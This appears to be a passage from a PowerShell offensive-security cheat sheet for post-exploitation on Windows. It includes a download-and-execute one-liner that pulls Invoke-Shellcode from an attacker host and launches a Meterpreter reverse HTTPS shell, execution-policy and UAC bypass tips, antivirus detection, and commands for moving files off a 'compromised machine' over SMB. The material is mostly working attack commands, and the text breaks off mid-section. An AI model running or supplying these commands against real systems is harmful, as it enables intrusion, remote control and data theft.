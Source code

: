 ```powershell
IEX (New-Object Net.WebClient).DownloadString(“http://10.0.0.14:8000/CodeExecution/Invoke-Shellcode.ps1”)

Get-Help Invoke-Shellcode

Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 10.0.0.14 -Lport 4444 -Force

```

Following metasploit payloads are supported

```bash
windows/meterpreter/reverse_http
windows/meterpreter/reverse_https
```

### Basic usage
* start PS from cmd bypassing the execution policy: `powershell -ep bypass`
* importing modules is possbile with dot notation: `. .\PowerView.ps1`



## UAC


* check UAC in cmd: `REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA`
* UAC can be bypassed using https://github.com/turbo/zero2hero
OR 

# Antivirus

## Detect AV Version

* works with PS 3.0 and higher
`Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct`

## Download and Upload stuff



```powershell

# enable SMBv1
# this is going to be helpful to start file transfers
# on compromised machine

Enable-WindowsOptionalFeature -Online -FeatureName "SMB1Protocol-Client" -All

New-SmbMapping -RemotePath '\\server' -Username "domain\username" -Password "password"

#copy

copy share_path target_dir

#example 

copy c:\test '\\192.168.219.100\share_name'

# use

net use \\server /user:domain\username password

#execute PEs

```